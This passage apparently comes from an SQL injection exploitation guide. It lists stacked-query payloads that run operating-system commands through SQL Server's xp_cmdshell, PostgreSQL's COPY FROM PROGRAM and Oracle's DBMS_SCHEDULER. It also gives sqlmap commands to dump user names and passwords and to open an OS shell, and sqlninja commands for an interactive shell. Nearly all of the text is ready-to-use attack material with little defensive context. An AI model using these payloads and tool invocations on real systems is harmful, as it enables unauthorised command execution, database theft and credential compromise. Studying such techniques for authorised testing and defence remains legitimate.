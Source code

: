 ```sql
# SQL Server
'; EXEC xp_cmdshell 'whoami' -- -

# PostgreSQL
'; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'whoami'; SELECT * FROM cmd_exec; -- -

# Oracle
'; EXEC DBMS_SCHEDULER.CREATE_JOB(job_name => 'RUN_CMD', job_type => 'EXECUTABLE', job_action => '/bin/sh', number_of_arguments => 3, start_date => SYSDATE, enabled => FALSE); EXEC DBMS_SCHEDULER.SET_JOB_ARGUMENT_VALUE('RUN_CMD',1,'-c'); EXEC DBMS_SCHEDULER.SET_JOB_ARGUMENT_VALUE('RUN_CMD',2,'touch /tmp/pwned'); EXEC DBMS_SCHEDULER.ENABLE('RUN_CMD'); -- -
```

## Popular Tools for Exploitation

### SQLmap

SQLmap excels at exploitation once vulnerabilities are discovered:

```bash
# Extract database names
sqlmap -u "https://target.com/page.php?id=1" --dbs

# Extract tables from a specific database
sqlmap -u "https://target.com/page.php?id=1" -D database_name --tables

# Extract data from specific columns
sqlmap -u "https://target.com/page.php?id=1" -D database_name -T users -C username,password --dump

# Advanced: OS shell access
sqlmap -u "https://target.com/page.php?id=1" --os-shell
```

### Havij

Although older and no longer actively maintained, Havij remains popular for its ease of use with an intuitive GUI. It automates many SQL injection tasks and is particularly effective against older, unpatched systems.

### sqlninja

Specifically designed for Microsoft SQL Server targets, sqlninja focuses on gaining shell access to the underlying operating system.

```bash
# Basic usage
./sqlninja -m test -v 3 -f sqlninja.conf

# Getting an interactive shell
./sqlninja -m shell -v 3 -f sqlninja.conf
```
